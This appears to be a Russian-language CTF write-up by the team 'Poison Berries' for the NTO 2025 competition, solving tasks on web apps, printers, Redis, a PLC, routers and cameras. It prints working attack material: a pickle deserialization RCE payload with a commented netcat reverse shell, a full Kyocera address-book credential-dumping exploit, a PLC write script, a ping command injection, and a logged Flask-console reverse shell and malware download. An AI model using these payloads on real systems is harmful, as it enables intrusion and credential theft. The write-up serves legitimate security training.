


<h1>Отчёт НТО</h1>
<h4>подготовлен командой Poison Berries</h4>
<br><br>
Продублирнован на https://github.com/mrvasil/nto-2025
<br>
<br>
<h2>Касса</h2>

Смотрим исходный код<br>
Замечаем, что за запаковку подписанной строки отвечает модуль pickle<br>
```python
ticket = TicketDTO(name, current_user.username, datetime.datetime.now())
dump = pickle.dumps(ticket)
output = io.BytesIO()
output.write(dump)
```
Разобравшись, как он работает, узнаём о возможности произвольного выполнения кода, с его помощью.<br>
Пишем споит<br>
```python
import pickle

import os

class RCE:
    def __reduce__(self):
        #cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
        #         '/bin/sh -i 2>&1 | nc 10.5.5.184 41101 > /tmp/f')
        #cmd = ('sleep 15')
        cmd = ("""echo $(env) >> /app/templates/base.html""")
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    with open("sigma.pkl", "wb") as f:
        f.write(pickled) 
```
Загружаем полученый файл в задание и замечаем что он действительно выполняется (например sleep), хоть и без вывода.<br>

Попробовав несколько вариантов запуска reverse shell понимаем, что он не подключится (из-за отсутствия nc/curl/итд и видимо заблокированного доступа к сети в контейнере)<br>
Тогда просто записываем вывод необходимых нам команд просто в темплейты (так как включен debug режим и они сразу же обновлются для пользователя)<br><br>
Так как флаг лежит в env системы, команду "env" и запускаем.



<br><br>
<h2>Confluence 1</h2>

Заходим на сам сервис, видим версию.<br>
Гулим, оказывается она подвержена RCE (CVE-2023-22527)<br>
Находим готовый poc.<br>
[https://www.exploit-db.com/exploits/51904](https://www.exploit-db.com/exploits/51904)


<br><br>
<h2>Принтер 1</h2>
Исследуем что \то за принтер, какой версии ПО и как работает.<br>
Погуглив, находим такой сплоит.<br>
[https://www.rapid7.com/blog/post/2022/03/29/cve-2022-1026-kyocera-net-view-address-book-exposure/](https://www.rapid7.com/blog/post/2022/03/29/cve-2022-1026-kyocera-net-view-address-book-exposure/)


```python
import requests
import xmltodict
import warnings
import sys
import time
warnings.filterwarnings("ignore")
 
url = "https://{}:9091/ws/km-wsdl/setting/address_book".format(sys.argv[1])
headers = {'content-type': 'application/soap+xml'}
# Submit an unauthenticated request to tell the printer that a new address book object creation is required
body = """<?xml version="1.0" encoding="utf-8"?><SOAP-ENV:Envelope xmlns:SOAP-ENV="http://www.w3.org/2003/05/soap-envelope" xmlns:SOAP-ENC="http://www.w3.org/2003/05/soap-encoding" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:wsa="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:xop="http://www.w3.org/2004/08/xop/include" xmlns:ns1="http://www.kyoceramita.com/ws/km-wsdl/setting/address_book"><SOAP-ENV:Header><wsa:Action SOAP-ENV:mustUnderstand="true">http://www.kyoceramita.com/ws/km-wsdl/setting/address_book/create_personal_address_enumeration</wsa:Action></SOAP-ENV:Header><SOAP-ENV:Body><ns1:create_personal_address_enumerationRequest><ns1:number>25</ns1:number></ns1:create_personal_address_enumerationRequest></SOAP-ENV:Body></SOAP-ENV:Envelope>"""
 
response = requests.post(url,data=body,headers=headers, verify=False)
strResponse = response.content.decode('utf-8')
#print(strResponse)
 
 
parsed = xmltodict.parse(strResponse)
# The SOAP request returns XML with an object ID as an integer stored in kmaddrbook:enumeration. We need this object ID to request the data from the printer.
getNumber = parsed['SOAP-ENV:Envelope']['SOAP-ENV:Body']['kmaddrbook:create_personal_address_enumerationResponse']['kmaddrbook:enumeration']
 
body = """<?xml version="1.0" encoding="utf-8"?><SOAP-ENV:Envelope xmlns:SOAP-ENV="http://www.w3.org/2003/05/soap-envelope" xmlns:SOAP-ENC="http://www.w3.org/2003/05/soap-encoding" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:wsa="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:xop="http://www.w3.org/2004/08/xop/include" xmlns:ns1="http://www.kyoceramita.com/ws/km-wsdl/setting/address_book"><SOAP-ENV:Header><wsa:Action SOAP-ENV:mustUnderstand="true">http://www.kyoceramita.com/ws/km-wsdl/setting/address_book/get_personal_address_list</wsa:Action></SOAP-ENV:Header><SOAP-ENV:Body><ns1:get_personal_address_listRequest><ns1:enumeration>{}</ns1:enumeration></ns1:get_personal_address_listRequest></SOAP-ENV:Body></SOAP-ENV:Envelope>""".format(getNumber)
 
print("Obtained address book object: {}. Waiting for book to populate".format(getNumber))
time.sleep(5)
print("Submitting request to retrieve the address book object...")
 
 
response = requests.post(url,data=body,headers=headers, verify=False)
strResponse = response.content.decode('utf-8')
#rint(strResponse)
 
parsed = xmltodict.parse(strResponse)
print(parsed['SOAP-ENV:Envelope']['SOAP-ENV:Body'])
 
print("\n\nObtained address book. Review the above response for credentials in objects such as 'login_password', 'login_name'")
```

Используем этот poc, который получсет адресную книгу принтера, среди которой есть

```users
'kmaddrbook:login_name': 'ftpuser', 'kmaddrbook:login_password': 'r34llyh4rdp455'
```

Далее подключаемся по ftp и сразу видим флаг.


<br><br>
<h2>Принтер 2</h2>

Вместе с флагом, на предыдущем шаге, лежит файл redis.conf<br>
Приглядевшись можем заметить пароль.<br>
```password
requirepass NTO_r3d15_p455w0rd
```
Далее подключаемся, смотрим версию.<br>
Находим в интернете такой сплоит [https://github.com/Ridter/redis-rce](https://github.com/Ridter/redis-rce)<br>

Запускам, получаем shell и находим ~/reallylongfilename4NTOflag




<br><br>
<h2>Сервис печати 1</h2>

Сканируем порты, находим 631 (ipp), заходим на него в браузере.<br>
Видим панель для управления принтерами и печатью.<br>

Находим такой эксплоит для CUPS.
[https://github.com/vulhub/evil-ipp-server/blob/master/poc.py](https://github.com/vulhub/evil-ipp-server/blob/master/poc.py)

Немного подредактировав запускаем скрипт и слушатель для reverse shell.<br>
Далее заходим на страницу и нажимаем "Print test page", именно это запускает наш код.<br>


<br><br>
<h2>Поезд</h2>
После разведки выяснили, что контроллер работает на 10.10.14.2 по протоколу S7 (порт 102).<br>
Разбираемся что это такое и как работает.<br>
Находим библиотеку для python - snap7.<br>

Пишем код.<br>

```python
import snap7
from snap7.util import set_string

PLC_IP = "10.10.14.2"
RACK = 0
SLOT = 1

DB_NUMBER = 1
string_num = 10
START_BYTE = (string_num-1)*256
#START_BYTE = 1024
print(START_BYTE)
MAX_LENGTH = 254

NAME = "  "+"Poison Berries"+" "*52

plc = snap7.client.Client()
plc.connect(PLC_IP, RACK, SLOT)

data = plc.db_read(DB_NUMBER, START_BYTE, MAX_LENGTH)
print(f"{data}")

#set_string(data, 0, NAME, MAX_LENGTH)
plc.db_write(DB_NUMBER, START_BYTE, NAME.encode())

#data_new = plc.db_read(DB_NUMBER, START_BYTE, MAX_LENGTH)
#print(data_new.decode(errors='ignore'))

plc.disconnect()
```

string_num - строку куда записываем<br>
NAME - то что записываем

<br><br>
<h2>Кроличий горшок 2.0</h2>

Находим статью об исследовании похожего горшка и скрипт, читающий память в которой и есть флаг.<br>
[https://qwqoro.works/articles/plants-vs-bugs](https://qwqoro.works/articles/plants-vs-bugs)

```nto{p07_wh475_1n_ur_h34d}```

```python
import struct
import requests

start_param = 1337
end_param = 2000

with open("dumpy.bin", "wb") as f:
    for i in range(start_param, end_param):
       print(f"[*] Requesting {i}")
       r = requests.post("http://10.10.1.172/control", json={"cmd": 1, "param": i})
       value = r.json()["value"]
       if type(value) == int:
          f.write(struct.pack("<i", value))
       elif type(value) == float:
          f.write(struct.pack("<f", value))
       elif value is None:
          f.write(struct.pack("<i", 0))
       else:
          print("Unknown type!", value)
       f.flush()
```


<br><br>
<h2>Временные сообщения</h2>

Был  скачен исполняемый файл и загружен в ghidra. <br>
После анализа имеющихся функций, находим некий файл с ID '00000000', для чтения которого требовался пароль, а также обнаруживаем, что при запросе ID файла, программа выводит "storage/n", где n - введенный ID.<br>
Любопытно, не так ли?<br>
Значит, можно указать произвольный путь и получить содержание требуемых файлов.<br>
А где может лежать флаг?<br>
Свершив небольшой перебор, находим флаг, указав как n "../../../ect/passwd".<br>


<br><br>
<h2>NAS 2</h2>

Находим для данного таска уязвимость на Metasploit и эксплойтим


<br><br>
<h2>Кроличья нора</h2>

Подходим на станцию, снимаем дамп памяти микрочипа.<br>
Далее находим программу [https://github.com/BigNerd95/RouterOS-Backup-Tools](https://github.com/BigNerd95/RouterOS-Backup-Tools) и извлекаем логины и пароли от роутера.<br>
Приходим обратно на станцию, перебираем учетные записи и находим правильный пароль от учетной записи user и извлекаем файл с флагом в названии<br>

<br><br>
<h2>WIFI-Роутер</h2>

```flag
nto{p455_r3u53_15_d4n63r0u5} 
```
Заходим на страницу с логином и паролем *admin:nto{p07_wh475_1n_ur_h34d}*, смотрим настройки Администратор/System и там лежит флаг.

```flag
nto{c0n6r475_y0uv3_ju57_f0und_z3r0}
```
Заходим на проверку пинга и видим что там возможна command injection 
```
; cat /tmp/home/root/flag
```


<br><br>
<h2>Камера 1.0</h2>

```flag
nto{y0u_4r3_6r0z4_74pk0v}
```

ищем сплойт, находим [https://www.exploit-db.com/exploits/51017](https://www.exploit-db.com/exploits/51017)

эксплойтим ищем где лежат пользователи от rtsp. находим в /etc/config/user_managment. Добавляем пользователя pwned1337, перезагружаем rtspd и готово


<br><br>
<h2>Непрошеные гости! - 1</h2>

Зайдя на Sonar, доступный на Gitlab, мы видим две основные уязвимости: Открытый ключ от Django и пароль от Postgres.

<br><br>
<h2>Непрошеные гости! - 2</h2>


<br><br>
<h2>Враг врага 1 - 2</h2>
Notepad++ В загрузках лежит архив np++ который содержит вредоносный самараспаковывающийся архив


<br><br>
<h2>Враг врага 2 - 1</h2>
Уязвимость в веб-приложении (Flask Debug Console REVERSE SHELL)<br>
В конце лога видна строка: 

```shell
'10.10.10.12 - - [22/Jan/2025 19:36:07] "GET /console?&__debugger__=yes&cmd=import%20socket... HTTP/1.1" 200 -'
```

Это эксплуатация отладочной консоли Flask (Werkzeug), которая позволяет выполнить произвольный Python-код. <br>
Благодаря этому злоумышленник смог запустить reverse-shell на 10.10.10.12:900:

```shell
'GET /console?&__debugger__=yes&cmd=import%20socket,subprocess,os;s%3Dsocket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.10.12%22,9001));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22bash%22)&frm=0&s=yqqPfQiFZmXsmnZQYMPF'
```

<br><br>
<h2>Враг врага 2 - 2</h2>
Анализ 48 потока. <br>
Было найдено 2 подозрительных ip.<br> 
1. 81.177.221.242<br>
    Отправлял вредоносный бинарный файл app через HTTP (порт 8125): wget http://81.177.221.242:8125/app <br>
<br>
2. 10.10.10.12<br>
    Принимал reverse-shell на порт 9001 через эксплойт Flask debug console: s.connect(("10.10.10.12", 9001))<br>

<br><br>
<h2>Враг врага 2 - 3</h2>

1. Динамическая компоновка (Dynamic Linking): Программа использует стандартные библиотеки (libc.so.6) через .dynsym и .got.plt и вызывает функции через PLT/GOT (Procedure Linkage Table / Global Offset Table), что усложняет статический анализ. Это помогает избегать хардкода системных вызовов, маскируясь под легитимное ПО.
<br>
2. Отсутствие явной обфускации: Нет классических техник обфускации (UPX, XOR, base64) и код выглядит как обычное Linux-приложение. Это привлекает внимание антивирусов, анализирующих подозрительные бинарные паттерны.
<br>
3. Минималистичный набор импортов: Использует только базовые функции (open, read, write, strcpy), которые есть в любом легитимном ПО - нет подозрительных импортов (например, ptrace, inject).
Уменьшает сигнатуры для детектирования (например, YARA-правила).
<br>
4. Работа через файловую систему: Создает директорию storage и файлы с хешированными именами (например, %08x), использует stat, mkdir, open для манипуляций с файлами - маскирует вредоносную активность под обычные файловые операции.
<br>
5. Динамическое патчингование (CUSTOM_write): Из лога: CUSTOM_write found, patched. ok — это значит, что он модифицирует системные вызовы (например, write) в рантайме. Обходит HIDS (системы обнаружения вторжений), отслеживающие вызовы write. Скрывает шифрование файлов от мониторинга.
<br>
6. Отсутствие персистентности: Нет автозагрузки через cron, systemd, .bashrc. Это уменьшает следы в системе после выполнения.
<br>
7. Использование переменных окружения: Читает PASSWORD и FLAG из переменных окружения (getenv), усложняя анализ.
<br>
8. Легитимные секции ELF: Стандартные секции (.text, .data, .bss), нет необычных (например, .malicious), корректные права доступа (RX для кода, RW для данных) - код вызывает подозрений при анализе утилитами (readelf, objdump).

